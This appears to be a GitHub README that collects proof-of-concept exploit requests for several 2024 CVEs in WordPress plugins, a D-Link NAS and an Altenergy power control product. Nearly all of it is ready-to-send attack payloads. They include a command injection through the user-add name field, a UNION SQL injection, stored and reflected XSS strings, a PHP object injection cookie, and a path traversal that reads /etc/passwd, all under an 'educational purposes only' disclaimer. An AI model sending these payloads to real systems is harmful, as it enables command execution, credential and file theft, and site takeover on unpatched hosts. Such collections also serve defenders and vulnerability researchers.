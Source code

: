 
# ⚠️ CVE Exploits and PoC Collection

[nuclei-templates 🔍](https://nuclei-templates.netlify.app/#q=osint)

This repository contains proof-of-concept (PoC) exploits for several WordPress plugins and other servers/websites with known vulnerabilities. These examples are for educational and research purposes only. Use responsibly.

## ⚠️ Vulnerabilities

### ✅ CVE-2024-10914
**A vulnerability was found in D-Link DNS-320, DNS-320LW, DNS-325 and DNS-340L up to 20241028**
```http
GET /cgi-bin/account_mgr.cgi?cmd=cgi_user_add&name=%27;id;%27 HTTP/1.1
```
### ✅ CVE-2024-11305
**A vulnerability classified as critical was found in Altenergy Power Control Software up to 20241108**
```plaintext
POST /index.php/display/status_zigbee HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close

date=2024-11-06%' UNION ALL SELECT 11,CHAR(113)CHAR(75,101,86,69,115,83,113,89,100,122,121,102,83,83,113,86,84,112,100,103,69,75,80,117,88,109,83,105,89,116,110,120,76,84,73,109,115,100,83,107)CHAR(113,118,98,98,113),11-- wPIB
```
### ✅ CVE-2024-10793  
**WP Security Audit Log Plugin Detection**  
An XSS vulnerability that allows injecting malicious scripts.  
```bash
curl -X POST 'http://example.com/wp-admin/admin-ajax.php' \
     -d 'action=destroy-sessions&user_id=<script>alert("XSS found windz3r0day")</script>'
```
### ✅ CVE-2024-11199  
**Stored Cross-Site Scripting via the plugin's `rescue_progressbar` shortcode**  
```plaintext
[rescue_progressbar visibility='foo" onclick="alert(/XSS/)"']
```

### ✅ CVE-2024-11381  
**Stored Cross-Site Scripting via the plugin's `ch_registro` shortcode**  
```plaintext
[ch_registro note='"onmouseover="alert(/XSS/)"']
```
### ✅ CVE-2024-43919  
**YARPP <= 5.30.10 - Missing Authorization**  
This exploit allows unauthorized access to modify display types.  
```http
GET /wp-content/plugins/yet-another-related-posts-plugin/includes/yarpp_pro_set_display_types.php?ypsdt=false&types[]=post&types[]=page HTTP/1.1
Host: example.com
```
### ✅ CVE-2024-52433  
**My Geo Posts Free <= 1.2 - Unauthenticated PHP Object Injection**  
```http
GET / HTTP/2
Host: wp-dev.ddev.site
Cookie: mgpf_geo_coockie=TzoyMDoiUEhQX09iamVjdF9JbmplY3Rpb24iOjA6e30=
```
### ✅ CVE-2024-9935  
**PDF Generator Addon for Elementor Page Builder <= 1.7.5 - Unauthenticated Arbitrary File Download**  
```http
GET /elementor-84/?rtw_generate_pdf=true&rtw_pdf_file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
Host: kubernetes.docker.internal
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Priority: u=0, i
```

## ▶▶▶ Disclaimer

This repository is intended for **educational purposes only**. Use of these exploits on systems or websites without explicit permission is illegal and unethical. The creator is not responsible for any misuse of this information.

---

## Support Me  

If you find this work helpful, you can support me:  
- [![Buy Me a Coffee](https://www.buymeacoffee.com/assets/img/custom_images/yellow_img.png)](https://buymeacoffee.com/ghost_sec)  

Thanks for your support! ❤️
